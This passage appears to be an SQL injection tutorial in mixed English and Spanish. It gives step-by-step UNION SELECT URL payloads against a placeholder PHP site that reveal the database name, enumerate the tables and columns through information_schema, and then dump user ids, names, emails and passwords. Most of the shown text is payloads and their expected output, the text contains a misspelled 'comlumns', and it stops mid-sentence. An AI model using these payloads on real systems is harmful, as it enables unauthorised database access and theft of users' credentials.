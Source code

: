 ### Extract personalized information

Now we are going to analyze in more detail how to get information from the database, returning to the example with which we are practicing, we are going to use `database ()`, which, as we have seen, helps us to show us the name of the database data with which we are working:

```
http://www.paginaparaejemplo.com/algo.php?id=1&id2=1&id3=1' union select 1,2,3,4,database(),6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,23 --+
```
It shows us:

`nombre_DB`

now we have the name of the database.

The next thing we are going to do is remove the tables from the database, here are 2 ways:

```
http://www.paginaparaejemplo.com/algo.php?id=1&id2=1&id3=1' union select 1,2,3,4,group_concat(table_name),6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,23 from information_schema.tables --+
```
It shows us:

`the main tables in the database information_schema`

To remove the tables from the database that we removed before: `name_db` we do the following:

```
http://www.paginaparaejemplo.com/algo.php?id=1&id2=1&id3=1' union select 1,2,3,4,group_concat(table_name),6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,23 from information_schema.tables where table_schema=database() --+
```

It shows us the main tables of the database `name_db`:

suppose we find the tables:

`usuarios, otra_tabla, hola_soy_otra_tabla`

logically the one that interests us is the table `usuarios`

Now we are going to enter the `users` table inside the` DB_name` database to get the columns:
```
http://www.paginaparaejemplo.com/algo.php?id=1&id2=1&id3=1' union select 1,2,3,4,group_concat(column_name),6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,23 from information_schema.comlumns where table_name="usuarios" --+
```

It shows us:

`id, name, email, passwd`

which are generally the ones that can be found.

Now, to display the content of those columns: `id, name, email, passwd` solo tenemos que recordar en que tabla estan para asi poder llamarlas, así;

```
http://www.paginaparaejemplo.com/algo.php?id=1&id2=1&id3=1' union select 1,2,3,4,group_concat(id,name,email,passwd),6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,23 from usuarios --+
```
It shows us:
